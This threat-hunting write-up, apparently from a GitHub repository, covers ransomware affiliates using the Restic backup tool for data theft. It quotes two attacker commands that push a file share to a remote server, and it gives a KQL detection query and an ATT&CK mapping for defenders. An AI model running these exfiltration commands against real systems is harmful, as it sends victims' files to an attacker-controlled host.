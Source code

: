 
# Restic | Data Exfiltration

# Summary:

Restic is an open-source backup tool that supports backing up data to various storage types, including local directories, SFTP servers, and cloud services like Amazon S3, Google Cloud Storage, and Microsoft Azure. Recently, it has been observed in use by the BlackCat Ransomware Affiliates.

## Attribution & Threat Actor
- BlackCat Ransomware Affiliates

## Diagram Overview of Attack/Methods STIX2: 

[STIX Visualizer](https://oasis-open.github.io/cti-stix-visualization/?url=https://raw.githubusercontent.com/CTI-Driven/Advanced-Threat-Hunting-Ransomware-Groups-Affiliates/main/Arsenals/Restic/STIX/Restic.json)

![Diagram Overview of Attack/Methods STIX2](Restic.png) 

## Technical Details:

The threat actor used Restic to perform the data exfiltration. Below are the two primary commands executed by the attacker:

## a) Initializing the Backup Repository
```bash
restic.exe -r rest:http://195.123.226[.]84:8000/ init --password-file ppp.txt
```

- **restic.exe**: The Restic binary used for the backup operation.
- **-r rest:http://195.123.226[.]84:8000/**: This specifies the backup repository location. The backup data was sent over HTTP to a remote server (`195.123.226[.]84`) running a REST service on port 8000.
- **init**: Initializes a new backup repository at the specified location.
- **--password-file ppp.txt**: The `ppp.txt` file contains the password for accessing the repository. This password file is required to encrypt/decrypt the backup data.

## b) Executing the Data Exfiltration
```bash
restic.exe -r rest:http://195.123.226[.]84:8000/ --password-file ppp.txt --use-fs-snapshot --verbose backup "F:\Shares\<REDACTED>\<REDACTED>"
```

- **backup "F:\Shares\<REDACTED>\<REDACTED>"**: This command backs up the data from the local directory located at `F:\Shares\<REDACTED>\<REDACTED>`.
- **--password-file ppp.txt**: Uses the password file to authenticate to the backup repository.
- **--use-fs-snapshot**: This option enables Restic to leverage the **Volume Shadow Copy Service (VSS)**, which allows it to create backups of files that may be locked by other processes. This is particularly useful for backing up active files that are currently in use.
- **--verbose**: Prints live output during the backup process, providing status updates on the exfiltration process.


## Detection Opportunities (KQL):

```kusto
// Replace "Timestamp" with "TimeGenerated" when running this KQL query in Microsoft Sentinel.
//Comment: A true positive would involve the following:
//-> restic.exe -r rest:http://195.123.226[.]84:8000/ init --password-file ppp.txt
//-> restic.exe -r rest:http://195.123.226[.]84:8000/ --password-file ppp.txt --use-fs-snapshot --verbose backup "F:\Shares\<REDACTED>\<REDACTED>"
//-> Preparing a new repository CommandLine activity using restic
//-> Local: restic init --repo /srv/restic-repo
//-> SFTP: restic -r sftp:user@host:/srv/restic-repo init
//-> REST Server: restic -r rest:http://host:8000/ init
//-> Amazon S3: restic -r s3:s3.us-east-1.amazonaws.com/bucket_name init
//-> Minio Server: restic -r s3:http://localhost:9000/restic init
//-> OpenStack Swift: restic -r swift:container_name:/path init
//-> Wasabi: restic -o s3.bucket-lookup=dns -o s3.region=<OSS-REGION> -r s3:https://<OSS-ENDPOINT>/<OSS-BUCKET-NAME> init
//-> Backblaze B2: restic -r b2:bucketname:path/to/repo init
//-> Microsoft Azure Blob Storage: restic -r azure:foo:/ init
//-> Google Cloud Storage: restic -r gs:foo:/ init
//-> rclone: restic -r rclone:foo:bar init
//Title: Detect the Use of Restic for Backup Repository Initiation and Data Exfiltration.
//QKL Advanced hunting query:
let timeframe = 24hr;
// Detection 1: Traffic related to Restic API HTTP header request
let Restic_API_HTTPRequest = (
    DeviceNetworkEvents
    | where Timestamp >= ago(timeframe)
    | where ActionType == "HttpConnectionInspected"
    | extend AdditionalFields_info = parse_json(AdditionalFields)
    | where  AdditionalFields_info.uri in ("application/vnd.x.restic.rest.v1", "application/vnd.x.restic.rest.v2")
          or AdditionalFields_info.user_agent contains "restic"
);
// Detection 2: Process commands events related to Restic tool that could be used to initiate the backup repository and exfiltration
let Restic_ProcessCommandsEvents = (
    DeviceProcessEvents
    | where Timestamp >= ago(timeframe)
    | where ((ProcessCommandLine has_all (" -r", " :/", " init") or ProcessCommandLine has_all (" --repo", ":/", " init"))
     or ProcessCommandLine has_any (" backup", " init")
     and (   (ProcessCommandLine has_all (" -r", " sftp:"))
           or(ProcessCommandLine has_all (" -r", " rest:http"))
           or(ProcessCommandLine has_all (" -r", " s3:s3.", "amazonaws"))
           or(ProcessCommandLine has_all (" -r", " s3:http"))
           or(ProcessCommandLine has_all (" -r", " swift:"))
           or(ProcessCommandLine has_all (" -r", " b2:"))
           or(ProcessCommandLine has_all (" -r", " azure:"))
           or(ProcessCommandLine has_all (" -r", " gs:"))
           or(ProcessCommandLine has_all (" -r", " gs:"))
           or(ProcessCommandLine has_all (" -r", " rclone:"))
)));
// Combine all detections
let Suspicious_Restic_data_Exfiltration_Activities = (
    union Restic_API_HTTPRequest, Restic_ProcessCommandsEvents
    | summarize arg_max(Timestamp, *) by DeviceId
    | order by Timestamp asc
);Suspicious_Restic_data_Exfiltration_Activities
```

## ATT&CK Techniques:

1. **Exfiltration**
    - **T1048 - Exfiltration Over Alternative Protocol**:  
       The threat actor utilized Restic, an open-source backup tool, to exfiltrate data from a file server by backing up directories over HTTP to a remote server. The tool used the rest backend to store data on a remote REST server. 

## References:
- https://thedfirreport.com/2024/09/30/nitrogen-campaign-drops-sliver-and-ends-with-blackcat-ransomware/#exfiltration
- https://restic.net
